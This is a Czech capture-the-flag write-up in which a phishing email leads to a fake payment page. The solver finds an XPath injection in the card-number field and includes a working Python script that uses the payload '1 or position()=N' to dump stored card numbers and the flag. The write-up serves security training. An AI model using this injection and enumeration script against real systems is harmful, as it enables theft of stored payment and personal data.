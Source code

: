 # Fraudulent e-mail

## Zadání

```
Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our customers have come across this scam.

Identify all card numbers entered into the fraudulent webpage (we have to report incident and its details to CSIRT-TCC).

Download fraudulent e-mail (MD5 checksum 94c7696bed436cd63a490de4008d2022).

May the Packet be with you!
```

Email:

```
MIME-Version: 1.0
Date: Mon, 10 Oct 2022 12:39:49 +0200
From: "Boss" <boss@mysterious-delivery.thecatch.cz>
Subject: Fwd: Unpaid invoice
To: "catcher@mysterious-delivery.thecatch.cz" <catcher@mysterious-delivery.thecatch.cz>
Content-Type: text/html; charset=UTF-8; format=flowed
Content-Transfer-Encoding: 8bit

I need to pay it but it's not working!!!<br>
<br>
Boss<br>
<br>
Sent from my CatcherPaw<br>
<br>
---------- Forwarded message ---------<br>
From: Your Mysterious-Delivery Server Admin <admin@mysteriuos-delivery.thecatch.cz><br>
Date: Mon, 10 Oct 2022 12:00:00 +0200<br>
Subject: Unpaid invoice<br>
To: boss@mysterious-delivery.thecatch.cz <boss@mysterious-delivery.thecatch.cz><br>
<br>
Dear Client<br>
<br>
Unfortunately, we have not received payment for your last invoice from you.<br>
Would you please pay the amount due now via our payment gateway.<br>
<br>
Please use the link <a href="http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8">http://messenger-portal.mysterious-delivery.thecatch.cz</a> to complete payment.<br>
<br>
Should we not receive payment from you within the next two days, your server will be locked until payment has reached us.<br>
<br>
Best regards<br>
<br>
Mysterious-Delivery Server Admin
```

## Řešení

Stránka http://really.sneaky.phishing.thecatch.cz/ zobrazí "platební bránu", která posíla POST request data, například:

```python
data = {
'card-holder-name': 'Jmeno',
'card-number': "4556132988899614",
'card-expires-date': '02/2022',
'card-cvv': 123,
'proceed-to-pay': '',
}
```

### 1. Testy

Testování citlivosti vstupů na různé znaky odhalí, že parametr `card-number` ohlásí chybu při použití uvozovky `"`:

```python
data['card-number'] = '"'
r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
print(r.text)
```

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Unfinished literal in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Dle chybové hlášky by se mohlo jednat o XPATH injection (https://book.hacktricks.xyz/pentesting-web/xpath-injection)

Zajimavý výsledek získáme:

```python
data['card-number'] = "1 or position()=1"
r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
print(r.text)
```

Výstup

```
...
<p>This card <strong>4556-1329-8889-9614</strong> is broken.</p>
```

Ve výstupu se objevilo číslo nějaké karty! Zkusíme tedy vypsat všechny karty a uvídíme jestli mezi nimi bude i vlajka.

### 2. Program pro výpis vlajky

```python
import requests
import re

data = {
'card-holder-name': 'as',
'card-expires-date': '02/2022',
'card-cvv': 123,
'proceed-to-pay': '',
}

i = 1
while True:
    data['card-number'] = "1 or position()=%i" % i
    r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
    m = re.search(r'This card <strong>(.*)<\/strong>', r.text)
    if m == None:
        break
    out = m.group(1)
    print(out)
    if 'FLAG' in out:
        break
    i += 1
```

Výstup:

```
...
3763-4282-5926-704
4485-4387-3632-9762
FLAG{0BF0-RREd-vAK3-1Ayi}
```

### Vlajka

```
FLAG{0BF0-RREd-vAK3-1Ayi}
```
